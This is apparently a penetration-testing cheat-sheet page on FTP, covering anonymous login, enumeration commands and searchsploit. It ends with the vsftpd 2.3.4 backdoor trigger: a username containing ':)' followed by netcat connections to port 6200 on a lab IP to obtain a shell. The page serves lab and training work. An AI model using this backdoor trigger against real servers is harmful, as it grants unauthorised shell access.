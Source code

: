 ```yaml
---
icon: file-chart-column
description: File Transfer Protocol
---
```


# FTP

{% tabs %}
{% tab title="Port" %}
```
21
```
{% endtab %}

{% tab title="Login " %}
{% code title="Standard Login" %}
```bash
ftp <IP>
```
{% endcode %}

* <mark style="color:purple;">Sometimes</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">is enable by default, then just type it when being prompt by an user.</mark>
* <mark style="color:purple;">To login as any other user:</mark>

```bash
USER <user>
```

* To specify a password:

```bash
PASS <password>
```
{% endtab %}
{% endtabs %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

* <mark style="color:purple;">Is always good practice to look for vulnerabilities:</mark>

```bash
searchsploit <version>
```

* <mark style="color:purple;">Always check the root path.</mark>
* <mark style="color:purple;">Check where you land:</mark>

```bash
pwd
```

* <mark style="color:purple;">List directories:</mark>

```bash
dir
```
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`vsftpd 2.3.4`</mark>

* <mark style="color:purple;">Connect to</mark> <mark style="color:orange;">**`FTP`**</mark> <mark style="color:purple;">with any username that contains</mark> <mark style="color:orange;">**`:)`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`any password`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Then connect to</mark> <mark style="color:orange;">**`port 6200`**</mark> <mark style="color:purple;">to get a shell:</mark>

```bash
nc 10.10.10.131 21
```

* <mark style="color:purple;">Now connect to the backdoor:</mark>

```bash
nc 10.10.10.131 6200
```

***


{% endhint %}

